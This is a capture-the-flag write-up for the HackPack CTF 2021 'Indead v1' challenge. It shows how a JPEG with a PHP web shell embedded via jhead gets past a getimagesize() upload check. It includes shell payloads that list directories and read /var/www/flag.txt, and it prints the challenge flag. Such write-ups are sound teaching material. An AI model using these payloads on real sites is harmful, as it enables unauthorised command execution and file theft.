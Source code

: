 # Indead v1

> Job posting website for security experts, pentesters and hackers. [http://indead-upload-avatar.ctf2021.hackpack.club](http://indead-upload-avatar.ctf2021.hackpack.club/)

I took the first look at the website, there seems to be a file upload function on the index page

![image-Indeadv1-1](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-1.png?raw=true)

Source code :

```html
<form action="/" method="POST" enctype="multipart/form-data">
    <div class="form-row">
        <div class="form-group col-md-6">
            <input type="file" name="avatar">
        </div>
    </div>
    <button type="submit" class="btn btn-success">Upload picture</button>
</form>
```

I tried to upload a random file

![image-Indeadv1-2](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-2.png?raw=true)

Analyzing the page source, I found out that the image was pushed to this very weird path `/very_long_directory_path/`

![image-Indeadv1-3](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-3.png?raw=true)

I tried to read if there's any hidden file around it that they used to hide the flag, and It worked on `/very_long_directory_path/flag.txt`. Unfortunately, the flag we got on that path was a fake flag

I tried to upload a shell to the same function again and I got this

![image-Indeadv1-4](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-4.png?raw=true)

I was wondering what kind of security implementation that they were using

I tried to access to `robots.txt` file and I was lucky

![image-Indeadv1-5](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-5.png?raw=true)

Now I know they're probably exposing the PHP source code to the internet. My first try is the `index.phps` file

![image-Indeadv1-6](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-6.png?raw=true)

`core.php` was also exposed, and it was about the uploading function which is what I needed

![image-Indeadv1-7](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-7.png?raw=true)

People who are wary of falsified MIME types and extra file extensions often advocate the use of something like `getimagesize() `

To exploit this kind of vulnerability I used [jhead](http://www.sentex.net/~mwandel/jhead/) tool to embed a comment inside a decoy image file

```
C:\Users\Admin\Downloads>jhead.exe -ce uniguri.jpg.php
Modified: uniguri.jpg.php
```

Shell injected :

```php
<?php echo shell_exec("pwd"); echo shell_exec("ls -la"); __halt_compiler();
```

The `__halt_compiler()` function call is there so that the image data doesn’t accidentally get interpreted as PHP and throw a parse error. This is why the output stops before outputting the actual image data

It is successfully uploaded

![image-Indeadv1-8](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-8.png?raw=true)

After wandering around, I found out that the flag was being hidden at `/var/www/flag.txt`

I crafted the final shell to read the flag :

```php
<?php echo shell_exec("cat /var/www/flag.txt"); __halt_compiler();
```

![image-Indeadv1-9](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/HackPack-CTF-2021/images/Indeadv1-9.png?raw=true)

Flag :

```
flag{y3t_an0ther_file_uplo@d_vuln}
```

